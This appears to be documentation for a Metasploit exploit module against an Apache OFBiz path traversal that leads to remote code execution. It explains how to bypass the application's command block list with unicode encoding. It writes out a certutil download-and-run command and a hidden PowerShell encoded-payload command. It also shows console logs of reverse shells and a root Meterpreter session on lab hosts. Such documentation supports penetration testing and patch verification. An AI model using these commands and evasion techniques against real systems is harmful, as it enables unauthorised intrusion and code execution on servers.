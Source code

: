 ## Vulnerable Application
Apache OFBiz versions prior to 18.12.13 are vulnerable to a path traversal vulnerability. The vulnerable
endpoint `/webtools/control/forgotPassword` allows an attacker to access the `ProgramExport` endpoint which in
turn allows for remote code execution in the context of the user running the application.

### Description
The module can exploit Apache OFBiz running on both Windows and Linux. OFBiz has list of `deniedWebShellTokens`
which includes strings like `curl` and `chmod` which attempts to prevent ProgramExport from being exploited. The list
can be bypassed if you encode your payload in unicode characters, which is what is done for payloads being sent to
Apache OFBiz running on Linux. Trying to do the same on Windows results in the application throwing errors complaining
about multiple characters.
```
      <p>The Following Errors Occurred:</p>
        <p>org.codehaus.groovy.control.MultipleCompilationErrorsException: startup failed:
Script1.groovy: 1: unexpected char: &#39;:&#39; @ line 1, column 49.
```

Which is why the following: `'BadChars' => "\x3a"` has been added. Adding BadChars changes the payload
to be Base64 encoded and gets powershell to decode and run it: `powershell -w hidden -nop -e <Base64 encoded payload>`
However if you have a fetch payload selected which separates the downloading of the payload from the execution of the
payload with an ampersand:
`certutil -urlcache -f http://172.16.199.1:8080/-LHoYC22ccefBZaLFchCEQ %TEMP%\\kBAJaFov.exe & start /B %TEMP%\\kBAJaFov.exe`,
powershell doesn't interpret the ampersand in the same way cmd.exe would and thus will try to execute the payload before
it's finished downloading.

This is why, at the time of writing, a PowerShell payload must be used when exploit a target running on Windows.

### Setup

#### Docker

1. Run the following docker command to spin up a vulnerable target:
`docker run -p 8080:8080 -p 8443:8443 --rm -e INIT_DB=2 vulhub/ofbiz:18.12.09`

#### Windows 10 (Build 19045)

1. Download the Java 8 JDK from https://download.java.net/openjdk/jdk8u41/ri/openjdk-8u41-b04-windows-i586-14_jan_2020.zip
1. Unzip the JDK to a target directory.
1. Edit `JAVA_HOME` environment variable and set it to the location where you extracted the Java 8 JDK.
1. Update the `PATH` environment variable to include a path to the same location as `JAVA_HOME`, but with `\bin` at the end of it.
1. Download a vulnerable version of Apache OFBiz from https://archive.apache.org/dist/ofbiz/apache-ofbiz-18.12.12.zip
1. Create the directory: `C:\ofbiz`.
1. Unzip the contents of `apache-ofbiz-18.12.12.zip` into `C:\ofbiz`.
1. Run `cd C:\ofbiz`.
1. Run `init-gradle-wrapper` to initialize the Gradle wrapper.
1. Run `.\gradlew cleanAll loadAll` to clean the system and load the complete OFBiz data.
1. Once the above completes run `.\gradlew ofbiz` to start the application
1. Navigate to `https://localhost:8443/webtools`


## Verification Steps

1. Start msfconsole
1. Do: `use `
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### Apache OFBiz 18.12.12 running on Windows 10 (Build 19045)
```
msf6 > use apache_ofbiz_forgot_password_directory_traversal

Matching Modules
================

   #  Name                                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                                 ---------------  ----       -----  -----------
   0  exploit/multi/http/apache_ofbiz_forgot_password_directory_traversal  2024-05-30       excellent  Yes    Apache OFBiz Forgot Password Directory Traversal
   1  \_ target: Linux Command                                             .                .          .      .
   2  \_ target: Windows Command                                           .                .          .      .


Interact with a module by name or index. For example info 2, use 2 or use exploit/multi/http/apache_ofbiz_forgot_password_directory_traversal
After interacting with a module you can manually set a TARGET with set TARGET 'Windows Command'

[*] Using exploit/multi/http/apache_ofbiz_forgot_password_directory_traversal
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_ofbiz_forgot_password_directory_traversal) > use 2
[*] Additionally setting TARGET => Windows Command
[*] Using configured payload cmd/windows/powershell_reverse_tcp
msf6 exploit(multi/http/apache_ofbiz_forgot_password_directory_traversal) > run rhosts=172.16.199.132 lhost=172.16.199.1 rport=8443 ssl=true

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Tested command injection successfully
[*] Attempting to exploit...
[*] Powershell session session 1 opened (172.16.199.1:4444 -> 172.16.199.132:50229) at 2024-06-07 12:44:48 -0400

PS C:\ofbiz> whoami
desktop-n3oru31\msfuser
PS C:\ofbiz> systeminfo

Host Name:                 DESKTOP-N3ORU31
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.19045 N/A Build 19045
```

### Apache OFBiz 18.12.12 running in Docker on MacOS 14.5
```
msf6 exploit(multi/http/apache_ofbiz_forgot_password_directory_traversal) > run target=0 payload=cmd/linux/http/x64/meterpreter/reverse_tcp rhosts=172.16.199.1 lhost=172.16.199.1 rport=8443 ssl=true 

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Tested command injection successfully
[*] Attempting to exploit...
[*] Sending stage (3045380 bytes) to 172.16.199.1
[*] Meterpreter session 2 opened (172.16.199.1:4444 -> 172.16.199.1:54454) at 2024-06-07 13:02:01 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 11.4 (Linux 6.6.26-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
